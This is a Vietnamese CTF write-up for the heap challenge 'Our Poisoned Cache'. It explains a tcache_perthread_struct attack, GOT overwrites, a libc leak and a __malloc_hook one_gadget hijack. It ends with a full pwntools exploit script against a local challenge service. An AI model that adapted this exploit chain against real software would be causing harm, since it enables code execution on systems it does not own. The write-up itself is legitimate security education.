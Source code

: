 # Our Poisoned Cache

### Summary
  Ý định của mình cho vòng qual chỉ là một bài pwn heap cơ bản liên quan đến **tcache struct attack** . Ban đầu challenge không có stack leak mà chỉ có heap leak tuy nhiên điều này tạo ra một challenge rất hạn hẹp và nhàm chán, dù gì thì đây cũng chỉ là một bài introduction đến với heap exploit. Tuy nhiên solution của mình sẽ không dùng đến stack leak có sẵn.
  
## Description

>My h4ck3r friend said that my program can be exploited, something something related to poisoning. I don't understack this hacking's lingo. Can you exploit this and read my file flag.txt?

![image](https://user-images.githubusercontent.com/101010673/174489807-04014b5a-7138-4afb-b016-6c767391df3a.png)  

  - Hint ở đây là liên quan đến **tcache poisoning**. Nhưng khác với technique thông thường chúng ta sẽ không overwrite lên tcache chunk đã bị free, mà chúng ta sẽ exploit thẳng vào tcache struct nằm sẵn ở trên heap.
  - Đồng thời nhận thấy đây là **partial RELRO** và **NO PIE**. Ta sẽ exploit cả vào **GOT Table**

## Reversing
  ![image](https://user-images.githubusercontent.com/101010673/174490407-e48b3b86-b3c8-4b5a-a67b-3c9f9ff4fa56.png)  

  Đây là phần quan trọng nhất của cả chương trình. Work flow của chương trình là như sau:  
  - **Malloc** 0x40 bytes chunk  
  - **Malloc** 0x10 bytes chunk (Tránh chunk consolidation)  
  - Cho ta biết **heap base** và **stack address**
  - **Free** 0x40 bytes chunk  
  - Cho ta **arbitrary write chỉ riêng trên heap** 
  ![image](https://user-images.githubusercontent.com/101010673/174490474-4022bc33-2af5-4b30-a7a5-c6f7929785c6.png)  
      
  - Chỉ **malloc** 0x40 bytes chunk 1 lần nữa nếu ta đã không ghi đè vào **fd pointer** của freed tcache chunk, và **bk pointer** nằm trong heap range  
  ![image](https://user-images.githubusercontent.com/101010673/174490505-b9ec90f3-da1b-4b58-8705-5bf2441e4235.png)  
  - **Chỉ chunk 0x40 bytes lần 2 là ta có quyền nhập vào 0x30 bytes.**  
  - Chương trình sẽ exit ngay sau đó  
    
  => Với restriction này ta không thể thực hiện **tcache poisoning** thông thường

## Prerequisite Knowledge
  Trước tiên chúng ta cần nói qua về **tcache struct attack**:  
```c
  typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];//0x40
  tcache_entry *entries[TCACHE_MAX_BINS];//0x40
} tcache_perthread_struct;
```  
  - Khi chương trình dùng đến **TCACHE**, thì **tcache_perthread_struct** sẽ được initialized và được lưu trữ ngay trên heap  
  ![image](https://user-images.githubusercontent.com/101010673/174491121-d069fa38-a099-453c-9864-84c5a8826255.png)  
  - Nó chính là chunk đầu tiên với size `0x290 bytes`
  - Struct tcache sẽ bao gồm một array *counts* đầu tiên với 0x40 bytes. Mỗi bytes sẽ đại diện cho số lượng tcache với size đó mà ta hiện có)  
  - Một array *entries* chính là **address của chunk đứng đầu trên single linked list** của tcache với từng size một. 
  ![image](https://user-images.githubusercontent.com/101010673/174491555-9f603fa8-e8ca-411f-872c-36e5af12dc4e.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491573-022e2a56-f9db-4276-9483-9a762cb55066.png)   
  - Một tcache linked list thông thường sẽ như sau: Size 0x20: Chunk 1 -> Chunk 2 -> Chunk 3 -> ..... -> Chunk 7 ( Tcache của một size chỉ cố tối đa **7 chunk**)
  - Với **tcache poisoning** thông thường ta sẽ pollute **fd (forward) pointer** để làm thay đổi linked list dẫn đến chunk tiếp theo sẽ trả về một địa chỉ khác.
  - Size 0x20: Chunk 1 -> Chunk 2(fd pointer poisoned) -> (The address we poisoned with) -> corrupted
  - Như vậy lần **malloc** thứ nhất với size 0x20 bytes, chương trình kiểm tra tcache và thấy có chunk 1 free -> Chương trình trả về chunk này cho chúng ta
  - Lần **malloc** thứ hai tương tự, nhưng lần này sau chunk 2 lại trỏ đến một address khác (Ta đã poison tcache)
  - Lần **malloc** thứ ba, sẽ trả về address mà ta đã poison
  - Tuy nhiên như đã nói ở trên chương trình có kiểm tra xem **fd pointer** của chunk có bị corrupt không thế nên ta sẽ không tấn công vào đây mà sẽ tấn công ngay vào **entries** hay chính là chunk đầu tiên  
  ![image](https://user-images.githubusercontent.com/101010673/174491604-6f550d5b-8772-4192-b2c1-6350ce65e842.png)  
  - **0x4052a0** chính là entries tương ứng với 0x50 size tcache chunks và ta cần ghi đè địa chỉ này thành địa chỉ khác

## Arbitrary Write
  Từ kiến thức về **tcache struct attack** ở trên ta đã có khả năng để **arbitrary write ngoài vùng heap** với ý tưởng như sau:
  - Quay lại về flow của chương trình: ptr = malloc(0x40) -> free(ptr) -> malloc(0x40)
  - Như vậy sau lần malloc đầu rồi free, tcache 0x50 sẽ có một chunk đấy chính là **0x4052a0**  
  - Ta sẽ ghi đè địa chỉ này lần malloc sau đó sẽ trả về address ta mong muốn  
  
  Ví dụ: Ta ghi đè với **0x405310**  
  ![image](https://user-images.githubusercontent.com/101010673/174491852-0a10a91c-3de1-4ff9-9c91-8d284adab2a7.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491913-a489e067-d9e8-46a5-bffc-fc2559fbcf68.png)  
  ![image](https://user-images.githubusercontent.com/101010673/174491894-bbce2064-b7a9-470e-b9ec-fbe069bb8d8f.png)  
  
  Giờ thì ta có thể ghi đè **GOT Table**, ghi đè **GOT của exit** thành địa chỉ của main để ta có thể chạy chương trình vô hạn lần
  
  **Chú ý:** Sau khi ta ghi đè **entries** xong thì **fd pointer** của chunk tiếp theo sẽ tiếp tục bị corrupt, nên ta cần phải ghi đè lại **fd pointer** thành null để thỏa mãn điều kiện malloc lần 2  
  ![image](https://user-images.githubusercontent.com/101010673/174492474-8d9928dc-d621-4965-822e-049dda9d33a9.png)  
  8 bytes đầu tiên không còn là null như lần đầu nữa nên ta cần ghi đè lại  
  
## Info-leak
  Đầu tiên ta cần leak được địa chỉ libc, solution của mình sẽ leak thông qua **setvbuf**  
  ![image](https://user-images.githubusercontent.com/101010673/174492592-9786c4cb-ea04-48c1-873e-24d56761aeab.png)  
  - Nếu **GOT của setvbuf** trở thành **printf**, thì ta sẽ in ra được giá trị lưu tại địa chỉ global **stdin,stdout,stderr**  
  - Mà các địa chỉ global kia lại được lưu ở **.bss** -> ta có thể ghi đè cả địa chỉ global này  
  => Ta có thể leak giá trị ở bất kì địa chỉ nào mà ta mong muốn  

## Control RIP  
  - Để kiểm soát được luồng thực thi của chương trình (Hijacking RIP), ta sẽ dùng trick phổ biến: ghi đè **__malloc_hook** thành **one_gadget**  
  - Như vậy mỗi khi chương trình gọi **malloc** -> gọi **malloc_hook** -> gọi **one_gadget**  
  ![image](https://user-images.githubusercontent.com/101010673/174492774-c92db6d7-ff4f-42dc-98d7-b2521b19ac79.png)  
  - Mình sử dụng **one_gadget** nằm ở offset **0xe3b31**  
 
## Full exploit script  
```python
from pwn import *

r = remote("127.0.0.1",2005)

#r = gdb.debug("./our_poisoned_cache_patched")

r.recvuntil("is: ")
heap_base = int(r.recv(8),16)
r.recvuntil("is: ")
stack_addr = int(r.recv(14),16)
overwrite_tcache = heap_base + 0xa8
exit_got = 0x404068
free_got = 0x404018
stderr = 0x4040a0
main = 0x004012c7
setvbuf = 0x404050

log.info("Overwriting exit GOT to point to main")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(exit_got)))
r.send(p64(main))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x310)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting setvbuf to point to printf")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(setvbuf)))
r.send(p64(0x401050) + p64(0x401016))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x3f0)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting stderr to another address point to read GOT")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(stderr)))
r.send(p64(0x404040))
r.recv(8)

log.info("Setvbuf will now print out libc address stored at read GOT")
leak_libc = u64(r.recv(6).ljust(8,"\x00"))
libc_base = leak_libc - 0x10dff0
malloc_hook = libc_base + 0x1ecb70
one_gadget = libc_base + 0xe3b31
log.info("Libc Base Address: " + hex(libc_base))

r.sendlineafter("Where:\n",str(hex(heap_base + 0x4d0)))
r.sendlineafter("What:\n",str(hex(0x0)))
r.send(p64(0))

log.info("Overwriting __malloc_hook to one_gadget")
r.sendlineafter("Where:\n",str(hex(overwrite_tcache)))
r.sendlineafter("What:\n",str(hex(malloc_hook)))
r.send(p64(one_gadget))
r.clean()
r.interactive()
```  
![image](https://user-images.githubusercontent.com/101010673/174493058-839a6328-e738-441d-a9fc-c9f32cbab67c.png)


  

  
  
  
  


  
  


